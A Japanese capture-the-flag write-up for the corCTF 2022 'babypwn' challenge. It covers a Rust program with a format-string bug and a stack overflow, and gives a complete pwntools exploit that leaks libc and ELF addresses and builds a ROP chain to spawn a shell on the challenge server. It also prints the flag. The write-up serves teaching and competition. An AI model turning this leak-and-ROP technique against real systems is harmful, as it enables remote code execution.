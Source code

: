 # corCTF 2022 `babypwn [pwn]` writeup

## 問題
Just another one of those typical intro babypwn challs... wait, why is this in Rust?

`nc be.ax 31801`

実行ファイルとソースコード、Dockerfile、libcが配られる。

```rs
use libc;
use libc_stdhandle;

fn main() {
    unsafe {
        libc::setvbuf(libc_stdhandle::stdout(), &mut 0, libc::_IONBF, 0);

        libc::printf("Hello, world!\n\0".as_ptr() as *const libc::c_char);
        libc::printf("What is your name?\n\0".as_ptr() as *const libc::c_char);

        let text = [0 as libc::c_char; 64].as_mut_ptr();
        libc::fgets(text, 64, libc_stdhandle::stdin());
        libc::printf("Hi, \0".as_ptr() as *const libc::c_char);
        libc::printf(text);

        libc::printf("What's your favorite :msfrog: emote?\n\0".as_ptr() as *const libc::c_char);
        libc::fgets(text, 128, libc_stdhandle::stdin());
        
        libc::printf(format!("{}\n\0", r#"
          .......           ...----.
        .-+++++++&&&+++--.--++++&&&&&&++.
       +++++++++++++&&&&&&&&&&&&&&++-+++&+
      +---+&&&&&&&@&+&&&&&&&&&&&++-+&&&+&+-
     -+-+&&+-..--.-&++&&&&&&&&&++-+&&-. ....
    -+--+&+       .&&+&&&&&&&&&+--+&+... ..
   -++-.+&&&+----+&&-+&&&&&&&&&+--+&&&&&&+.
 .+++++---+&&&&&&&+-+&&&&&&&&&&&+---++++--
.++++++++---------+&&&&&&&&&&&&@&&++--+++&+
-+++&&&&&&&++++&&&&&&&&+++&&&+-+&&&&&&&&&&+-
.++&&++&&&&&&&&&&&&&&&&&++&&&&++&&&&&&&&+++-
 -++&+&+++++&&&&&&&&&&&&&&&&&&&&&&&&+++++&&
  -+&&&@&&&++++++++++&&&&&&&&&&&++++++&@@&
   -+&&&@@@@@&&&+++++++++++++++++&&&@@@@+
    .+&&&@@@@@@@@@@@&&&&&&&@@@@@@@@@@@&-
      .+&&@@@@@@@@@@@@@@@@@@@@@@@@@@@+
        .+&&&@@@@@@@@@@@@@@@@@@@@@&+.
          .-&&&&@@@@@@@@@@@@@@@&&-
             .-+&&&&&&&&&&&&&+-.
                 ..--++++--."#).as_ptr() as *const libc::c_char);
    }
}
```

## 解法
Rustで書かれてるけどなんとなく読める。
そしてあからさまなFormat String BugsとStack Buffer Overflowがある。

セキュリティ機構のチェック。

```
[*] '/home/caffeine/ctf/corctf22/pwn/babypwn/babypwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
```
PIE enableなのでlibcとelfのアドレスリークしたい。
FSA (Read) でスタックの中にあるlibcとelfのアドレスをリークしてオフセットからベースのアドレスを計算しよう。
絶対アドレスが分かったらBOFでROPを組んで`system("/bin/sh")`を作る。

方針が決まったので、動的解析してlibcとelf領域のアドレスがスタックに眠ってないか確認する。
動的解析の過程でmain関数がめっちゃ短いことに気が付いた。
ソースコードをよく見るとmain関数全体が`unsafe{}`で囲まれている。
これの影響でソースコードの内容はmain関数から何度も関数を潜った先に実行されるようだ (gdbのbacktraceで見てみると10個以上関数を潜っている)。

ここまで来たらこっちのものだ。
スタックを掘ってmain関数の先頭アドレスや__libc_start_mian+243を発見。
こいつらをリークして自由自在にROPを組んでやりましょう。

## Exploit
解法に書いた通りにPwntools使って書くだけ。
強いて言えばスタックのアライメントには気を付けましょう (1敗)。

以上を踏まえて作成したexploit codeは以下の通り。

```py
from pwn import *
import sys
​
chall = "./babypwn"
# io = process(chall)
io = remote("be.ax", 31801)
​
elf = ELF(chall)
libc = ELF("libc.so.6")
​
main =  "_ZN7babypwn4main17h8f55ddfb4d984bd7E"
​
# 第86引数にmainの頭
# 第87引数に__libc_start_mian+243
payload = b"%86$p %87$p"
io.sendlineafter(b"name?", payload)
​
io.recvuntil(b"Hi, ")
ret = io.recvline()
print("main addr: " + ret[0:14].decode())
print("__libc_start_main addr: " + ret[15:-1].decode() + " - 0xf3")
​
elf.address = int(ret[2:14].decode(),16) - elf.sym[main]
addr_libc_start_main = int(ret[17:-1].decode(),16) - 0xf3
libc.address = addr_libc_start_main - libc.sym["__libc_start_main"]
​
# ROPgadgetの準備
addr_ret = elf.address + 0x501a
addr_pop_rdi_ret = elf.address + 0x51d1
​
# mainのreturn addressは97バイト目から書き換えられる
payload = b"A" * 0x60
payload += p64(addr_ret)
payload += p64(addr_pop_rdi_ret)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.sym["system"])
​
io.sendlineafter(b"emote?\n", payload)
io.interactive()
```

FLAG: `corctf{why_w4s_th4t_1n_rust???}`